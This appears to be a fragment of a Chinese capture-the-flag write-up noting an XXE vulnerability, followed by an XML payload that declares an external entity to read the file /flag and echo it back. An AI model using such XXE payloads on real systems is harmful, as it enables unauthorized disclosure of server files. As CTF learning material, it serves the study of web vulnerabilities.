 ## XXE
存在XXE漏洞
```xml
<!DOCTYPE root [
<!ENTITY bar SYSTEM "file:///flag"> ]>
<root>
<msg>&bar;</msg>
</root>
```
